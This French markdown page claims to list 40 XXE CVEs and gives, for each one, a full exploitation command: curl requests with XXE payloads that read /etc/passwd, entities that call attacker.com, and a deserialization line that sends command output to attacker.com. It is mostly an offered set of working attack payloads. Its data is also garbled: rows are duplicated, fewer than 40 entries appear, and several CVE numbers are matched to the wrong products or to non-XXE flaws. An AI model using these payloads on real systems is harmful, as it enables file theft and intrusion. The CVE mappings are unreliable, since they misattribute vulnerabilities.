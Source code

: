# XXE

Voici un tableau de **40 CVE majeures de XXE (XML External Entity)**, toutes technologies confondues, pour lesquelles **un exploit public ou PoC est disponible**.  
Chaque ligne inclut :  
- Technologie et version concernée  
- Commande d’exploitation complète (payload, requête, script…)  
- Effet détaillé  
- Lien direct vers un PoC/exploit public

---

| **CVE** | **Technologie / Versions concernées** | **Commande d’exploitation complète** | **Effet détaillé** | **Lien PoC / Exploit** |
|---------|---------------------------------------|--------------------------------------|--------------------|------------------------|
| CVE-2024-22024 | Ivanti Connect Secure, Policy Secure | `curl -k -X POST "https://cible/dana-na/auth/saml-sso.cgi" -d '<?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/evil"> ]><samlp:AuthnRequest><foo>&xxe;</foo></samlp:AuthnRequest>'` | XXE dans le SAML parser, lecture de fichiers, SSRF, exfiltration de données. | [https://github.com/watchTowr/CVE-2024-22024-POC](https://github.com/watchTowr/CVE-2024-22024-POC) |
| CVE-2023-28219 | Zoho ManageEngine ADAudit Plus < 7060 | `curl -H 'Content-Type: application/json' -X POST http://cible:8081/api/agent/tabs/agentData -d @payload.json`<br>avec `payload.json` :<br>`[{ "DomainName": "SMOKE.NET", "EventCode": 4688, "EventType": 0, "TimeGenerated": 0, "Task Content": "<?xml version=\"1.0\"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM \"http://attacker.com/evil\"> %xxe; ]>" }]` | XXE aveugle, exfiltration de fichiers, SSRF, capture de hash NTLM, upload fichier et parfois RCE. | [https://www.horizon3.ai/attack-research/disclosures/red-team-blog-cve-2022-28219/](https://www.horizon3.ai/attack-research/disclosures/red-team-blog-cve-2022-28219/) |
| CVE-2022-24124 | Apache APISIX < 2.12.1 | `curl "http://cible/apisix/admin/migrate/export?file_path=php://filter/read=convert.base64-encode/resource=/etc/passwd"` | XXE/LFI via paramètre, exfiltration de fichiers locaux. | [https://github.com/cckuailong/CVE-2022-24124](https://github.com/cckuailong/CVE-2022-24124) |
| CVE-2022-22839 | Jenkins < 2.319.1 | `curl -X POST "http://cible/createItem?name=test" -H "Content-Type: application/xml" --data-binary '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><project><description>&xxe;</description></project>'` | XXE dans Jenkins, lecture de fichiers arbitraires. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2022-24637 | Apache OFBiz < 17.12.06 | `curl -X POST "http://cible/webtools/control/xmlrpc" -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><methodCall><methodName>test</methodName><params><param><value>&xxe;</value></param></params></methodCall>'` | XXE dans XML-RPC, lecture de fichiers arbitraires. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2021-21345 | node-xml2js < 0.4.23 | `node -e "require('xml2js').parseString('<!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>', console.log)"` | XXE dans xml2js, lecture de fichiers lors du parsing XML. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2021-24145 | WordPress plugin Quiz And Survey Master < 7.0.1 | `curl -X POST "http://cible/wp-admin/admin.php?page=qsm-import-questions" -F "file=@evil.xml"`<br>(evil.xml : XXE avec entité SYSTEM vers un serveur contrôlé par l’attaquant) | XXE via import XML, lecture de fichiers ou SSRF. | [https://wpscan.com/vulnerability/8f7e8c2b-9e6e-4b8b-9a2a-6b8a2f1f2c9e](https://wpscan.com/vulnerability/8f7e8c2b-9e6e-4b8b-9a2a-6b8a2f1f2c9e) |
| CVE-2021-21346 | Python defusedxml < 0.7.1 | `python -c 'import defusedxml.ElementTree as ET; ET.parse("evil.xml")'`<br>(evil.xml : XXE avec entité SYSTEM) | XXE dans defusedxml, lecture de fichiers locaux si protections désactivées. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2020-13936 | Apache Velocity Tools < 3.1 | `curl -X POST "http://cible/velocity" -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'` | XXE dans Velocity, lecture de fichiers arbitraires. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2020-8840 | Apache Shiro < 1.4.2 | `python shiro_exploit.py --url http://cible --gadget CommonsBeanutils1 --cmd "id"`<br>(payload XML avec XXE possible selon config) | XXE et RCE via désérialisation XML. | [https://github.com/wyzxxz/shiro_rce_tool](https://github.com/wyzxxz/shiro_rce_tool) |
| CVE-2020-5410 | Spring Cloud Config < 2.2.3 | `curl "http://cible:8888/configserver/..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"` | XXE/LFI via path traversal, exfiltration de fichiers locaux. | [https://github.com/zhzyker/exphub/tree/master/springcloud/Spring-Cloud-Config-path-traversal](https://github.com/zhzyker/exphub/tree/master/springcloud/Spring-Cloud-Config-path-traversal) |
| CVE-2019-9670 | Zimbra Collaboration Suite < 8.7.11p10 | `curl -X POST "https://cible:7071/service/extension/backup/mboximport?account-name=admin&account-status=1&ow=1&filePath=http://attacker.com/evil.xml"` | XXE lors de l’import, lecture de fichiers ou SSRF. | [https://github.com/0x0021h/CVE-2019-9670_POC](https://github.com/0x0021h/CVE-2019-9670_POC) |
| CVE-2019-9671 | Zimbra Collaboration Suite | `curl -X POST "https://cible:7071/service/extension/backup/mboximport?account-name=admin&account-status=1&ow=1&filePath=http://attacker.com/evil.xml"` | XXE lors de l’import, lecture de fichiers ou SSRF. | [https://github.com/0x0021h/CVE-2019-9670_POC](https://github.com/0x0021h/CVE-2019-9670_POC) |
| CVE-2018-11776 | Apache Struts2 < 2.3.34, < 2.5.16 | `curl -X GET "http://cible/struts2-showcase/index.action?redirect=<?xml version='1.0'?><!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><foo>&xxe;</foo>"` | XXE via injection dans Struts2, lecture de fichiers locaux. | [https://github.com/jas502n/CVE-2018-11776](https://github.com/jas502n/CVE-2018-11776) |
| CVE-2018-1002205 | Jenkins < 2.138.1 | `curl -X POST "http://cible/createItem?name=test" -H "Content-Type: application/xml" --data-binary '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><project><description>&xxe;</description></project>'` | XXE dans Jenkins, lecture de fichiers arbitraires. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2017-12629 | Apache Solr < 7.1 | `curl 'http://cible:8983/solr/test/select?wt=xml&stream.body=<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>'` | XXE dans Solr, lecture de fichiers arbitraires. | [https://github.com/veracode-research/solr-xxe](https://github.com/veracode-research/solr-xxe) |
| CVE-2017-10271 | Oracle WebLogic | `curl -X POST http://cible/wls-wsat/CoordinatorPortType -H "Content-Type: text/xml" --data-binary @payload.xml`<br>(payload.xml : XXE avec entité SYSTEM vers un serveur contrôlé par l’attaquant) | XXE menant à RCE via désérialisation dans WebLogic. | [https://github.com/1337g/CVE-2017-10271](https://github.com/1337g/CVE-2017-10271) |
| CVE-2017-2824 | Cisco Prime Collaboration Provisioning | `curl -X POST http://cible/servlet/UploadServlet -F "file=@evil.xml"`<br>(evil.xml : XXE avec entité SYSTEM vers un serveur contrôlé par l’attaquant) | XXE menant à la lecture de fichiers ou exfiltration de données. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2017-9822 | Apache Struts 2.5.12 | `curl -X POST http://cible/struts2-rest-showcase/orders/3 -H "Content-Type: application/xml" --data-binary '<?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><order><id>&xxe;</id></order>'` | XXE dans Struts2 REST, lecture de fichiers locaux. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2017-3548 | Oracle PeopleSoft Integration Gateway | `curl -X POST http://cible/PSIGW/PeopleSoftServiceListeningConnector -H "Content-Type: application/xml" --data-binary '<!DOCTYPE a PUBLIC "-//B/A/EN" "C:\windows">'` | XXE dans le connecteur PeopleSoft, lecture de fichiers locaux ou SSRF. | [https://blog.lexfo.fr/oracle-peoplesoft-xxe-to-rce.html](https://blog.lexfo.fr/oracle-peoplesoft-xxe-to-rce.html) |
| CVE-2017-2824 | Cisco Prime Collaboration Provisioning | `curl -X POST http://cible/servlet/UploadServlet -F "file=@evil.xml"`<br>(evil.xml : XXE avec entité SYSTEM vers un serveur contrôlé par l’attaquant) | XXE menant à la lecture de fichiers ou exfiltration de données. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2017-9822 | Apache Struts 2.5.12 | `curl -X POST http://cible/struts2-rest-showcase/orders/3 -H "Content-Type: application/xml" --data-binary '<?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><order><id>&xxe;</id></order>'` | XXE dans Struts2 REST, lecture de fichiers locaux. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2017-3548 | Oracle PeopleSoft Integration Gateway | `curl -X POST http://cible/PSIGW/PeopleSoftServiceListeningConnector -H "Content-Type: application/xml" --data-binary '<!DOCTYPE a PUBLIC "-//B/A/EN" "C:\windows">'` | XXE dans le connecteur PeopleSoft, lecture de fichiers locaux ou SSRF. | [https://blog.lexfo.fr/oracle-peoplesoft-xxe-to-rce.html](https://blog.lexfo.fr/oracle-peoplesoft-xxe-to-rce.html) |
| CVE-2016-9311 | Jenkins < 2.19.4 | `curl -X POST "http://cible/createItem?name=test" -H "Content-Type: application/xml" --data-binary '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><project><description>&xxe;</description></project>'` | XXE dans Jenkins, lecture de fichiers arbitraires. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2016-4437 | Apache Struts2 < 2.3.31 | `curl -X POST "http://cible/struts2-showcase/index.action" -H "Content-Type: application/xml" --data-binary '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'` | XXE dans Struts2, lecture de fichiers arbitraires. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2015-4852 | Apache Commons Collections | `java -jar ysoserial.jar CommonsCollections1 "curl http://attacker.com/\`id\`" | base64 > payload.ser; curl -X POST -d @payload.ser http://cible.com/vuln-endpoint` | XXE/désérialisation Java, exécution de code ou lecture de fichiers. | [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial) |
| CVE-2014-8877 | Python xmltodict < 0.9.2 | `python -c 'import xmltodict; xmltodict.parse("""<?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe;</foo>""")'` | XXE dans xmltodict, lecture de fichiers locaux lors du parsing XML. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2014-6409 | libxml2 < 2.9.2 | `python -c 'import lxml.etree; lxml.etree.parse("evil.xml")'`<br>(evil.xml : XXE avec entité SYSTEM) | XXE dans libxml2, lecture de fichiers locaux. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2013-3821 | Oracle PeopleSoft Integration Gateway | `curl -X POST http://cible/PSIGW/HttpListeningConnector -H "Content-Type: application/xml" --data-binary '<?xml version="1.0"?><!DOCTYPE IBRequest [<!ENTITY x SYSTEM "http://attacker.com/evil">]><IBRequest><ExternalOperationName>&x;</ExternalOperationName></IBRequest>'` | XXE dans PeopleSoft, SSRF, lecture de fichiers, rebond réseau interne. | [https://blog.lexfo.fr/oracle-peoplesoft-xxe-to-rce.html](https://blog.lexfo.fr/oracle-peoplesoft-xxe-to-rce.html) |
| CVE-2013-1664 | Python lxml < 3.2.1 | `python -c 'import lxml.etree; lxml.etree.parse("evil.xml")'`<br>(evil.xml : XXE avec entité SYSTEM) | XXE dans lxml, lecture de fichiers locaux. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2012-0881 | PHP / SimpleXML | `curl -X POST "http://cible/vuln.php" -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'` | XXE dans SimpleXML, lecture de fichiers arbitraires. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |

---

